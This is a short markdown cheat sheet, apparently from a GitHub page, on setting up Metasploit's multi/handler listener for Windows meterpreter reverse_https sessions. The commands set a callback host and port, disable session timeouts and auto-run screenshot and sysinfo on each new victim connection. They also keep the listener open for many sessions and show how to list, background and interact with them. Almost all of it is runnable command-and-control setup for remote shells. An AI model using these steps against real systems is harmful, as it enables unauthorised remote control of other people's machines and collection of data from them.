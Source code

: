 ## Multi Handler

### Run metasploit multi handler

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST example.com
set LPORT 443
```

### Session will never timeout

```bash
set SessionCommunicationTimeout 0
```

### Execute commands on new session connection

```bash
set autorunscript multi_console_command -cl "screenshot","sysinfo"
```

### Don’t exit once the first meterpreter connection is established

```bash
set ExitOnSession false
```

### Run all meterpreter connections in the background automatically

```bash
exploit -j
```

### List sessions

```bash
sessions -l
```

### Interact with a shell

```bash
sessions -i 5
```

### Send interaction with session 5 to background

Press ctrl+z
